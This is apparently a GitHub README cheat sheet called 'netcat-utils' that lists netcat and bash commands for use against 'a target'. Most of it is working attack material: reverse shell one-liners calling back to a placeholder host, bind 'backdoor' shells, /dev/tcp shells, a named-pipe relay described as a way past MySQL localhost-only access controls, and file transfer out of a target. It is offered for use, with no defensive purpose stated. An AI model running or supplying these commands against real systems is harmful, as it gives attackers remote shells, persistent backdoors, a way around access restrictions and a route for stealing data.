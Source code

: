 # netcat-utils
Useful netcat commands such as Reverse Shells, Port Relays via FIFO, and others stuff.




***





### Listener ###
Listen for inbound connection over TCP. This can be used to receive reverse shell sessions.

To damonize use the `-d` flag, this will hide any GUI window.

Use `-v` to see verbose output.
```
nc -l -d -p [port]
nc -l -v -p [port]
```
---




### Connections ###
Initiate an outbound connection over TCP to a `[host]` which is listening on that `[port]`.
```
nc [host] [port]
```
---



### Reverse Shells ###
Run the following commands on a target which attempt to connect over TCP to the `[host]`. Host must be listening on `[port]`, _see above_.
```
nc [host] [port] -e /bin/bash
nc [host] [port] -e /bin/sh
nc [host] [port] -e cmd.exe
```
---



### Backdoor Shells ###
Same commands as before but in this case the target creates a listener which serves up a shell to anyone connecting on that `[port]`.
```
nc -l -d -p [port] -e /bin/bash
nc -l -d -p [port] -e /bin/sh
nc -l -d -p [port] -e cmd.exe
```
---



### Reverse Shell without Netcat on Target ###
As with the previous reverse shells, the `host` should be listening on the `port` sepecified for the callback to be successful.
```
bash -i >& /dev/tcp/[host]/[port] 0>&1
sh -i >& /dev/tcp/[host]/[port] 0>&1
python -i >& /dev/tcp/[host]/[port] 0>&1
```
---



### Relay / Port Redirection ###

**Create FIFO**

First in First Out, also known as named pipes, created by using `mknod p`. The `p` flag == type FIFO.
```
mknod [pipe-name] p
```

**Relay**

Create a loopback which will relay traffic between `localhost:[Port-A]` and `localhost:[Port-B]` on the target, allowing inbound connections to `localhost:[Port-B]` to be directed at `[Port-A]`.
```
nc -l -d -p [Port-B] 0< [pipe-name] | nc localhost [Port-A] 1> [pipe-name]
```
First netcat is used to create a listener on `[Port-B]` which we will direct Stdin `0<` to the named-pipe. Then forward the output of this listener via the tranditional pipe to the netcat connection to `[Port-A]`. Direct whatever service is listening on `[Port-A]` Stdout `1>` to the named-pipe, which will send the response back through the listener.

**Examples:**

MySQL by default listens on Port 3306, this will fool mysqld into thinking the connecting user is `user@localhost`! Many web apps only permit users from localhost and communicate via loopback connections to backend databases while not exposing the port to the outside; this would bypass that allowing external mysql client sessions that appear to originate from localhost.

Target: `nc -l -d -p [Port-B] 0< [pipe-name] | nc 127.0.0.1 3306 1> [pipe-name]`

Connection: `mysql --port [Port-B] --username=[user] --password=[passwd]`

Unfortunately the default `secure_mysql_installation` option "Prevent root from outside" will still disable `root`@`localhost` to connect in this manor.


FIFO's can also be used to connect to shells.
```
nc -l -d -p [port] 0< [pipe-name] | bash -i 1> [pipe-name]
nc -l -d -p [port] 0< [pipe-name] | sh -i 1> [pipe-name]
nc -l -d -p [port] 0< [pipe-name] | python -i 1> [pipe-name]
```
---



### File Transfer ###
Files can be transmitted across a netcat session using Stdin/Stdout.

Destination: `nc -l -d -p [port] > /path/to/file`

Source: `nc [host] [port] < path/to/file`

